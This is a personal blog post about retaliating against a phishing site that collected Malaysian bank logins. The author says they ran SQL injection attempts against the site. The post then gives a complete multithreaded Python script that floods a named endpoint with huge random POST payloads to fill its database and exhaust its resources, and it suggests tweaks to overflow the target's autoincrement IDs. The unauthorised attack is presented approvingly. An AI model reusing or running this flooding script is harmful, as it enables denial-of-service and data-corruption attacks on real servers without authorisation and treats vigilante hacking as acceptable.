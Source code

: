 ```yaml
---
layout: default
title:  "Annoying those phishers"
date:   2021-01-21 12:56:00 +0800
---
```


So a few hours ago a friend alerted me on facebook about a phishing site hosted in Turkey. After doing reconnaissance, i found out that the website is hosted in Turkey and the perpretor is actually a portuguese.

![Phishing site]({{ site.url }}/assets/images/maybank phishing.jpg){:class="img-responsive"}

And this guy was collecting username and passwords of a large bank in Malaysia (I am in Malaysia).

Ran a couple of SQL Injection scripts but at the same time i wrote a DoS script that is powerful that was utilizing the perpretor's resources and might send an alert to the provider on the activity on their network.

After working on the third version of the python script which was heavily threaded, i had also made a similar version that sends a large data that will be stored in his database. (the limit of a table size in MySQL is 65536 bytes) but i was hitting his server at 50Mbit/s running 25 python threads at one short.

so 2 scripts, my machine was running 50 threads concurrently.

![Python DoS]({{ site.url }}/assets/images/python dos.png){:class="img-responsive"}

But i ran two scripts, one with small payloads (to increase autoincrement faster) and a bigger payload (about 1.5MB per database row)

After running it for about half-and-hour, the perpretor finally took it's website down.

![Site 404]({{ site.url }}/assets/images/attack successful.png){:class="img-responsive"}

Most of the phishing sites are really simple forms and you can check the requests to launch and attack on them.

So here is the script (do not abuse it but you can read it for educational purposes)

fills the database with large random data
```
import logging
import threading
import requests
import random, string

def randomword(length):
   letters = string.ascii_lowercase
   return ''.join(random.choice(letters) for i in range(length))

headers = {'User-Agent': 'Mozilla/5.0'}
payload = {'pais':'ru','ip':'0.0.0.0', 'password': randomword(500000), 'systema': randomword(500000), 'ir': randomword(500000)}

def generate_requests(name):
    while True:
        logging.info("Thread %s: starting", name)
        session = requests.Session()
        r = session.post('https://onlinemaycampaign.com/home/m2u/common/indexSend.php',headers=headers,data=payload)
        print(r.text)
        logging.info("Thread %s: finishing", name)

if __name__ == "__main__":
    format = "%(asctime)s: %(message)s"
    logging.basicConfig(format=format, level=logging.INFO,
                        datefmt="%H:%M:%S")

    threads = list()
    for index in range(25):
        logging.info("Main    : create and start thread %d.", index)
        x = threading.Thread(target=generate_requests, args=(index,))
        threads.append(x)
        x.start()

    for index, thread in enumerate(threads):
        logging.info("Main    : before joining thread %d.", index)
        thread.join()
        logging.info("Main    : thread %d done", index)
```

Do note that you can modify this to use smaller data to increase the autoincrement ID of the database a lot faster (so there will be errors on the database if it reaches 4 billion rows - if the adversary depending if it is unsigned INT - which is common)

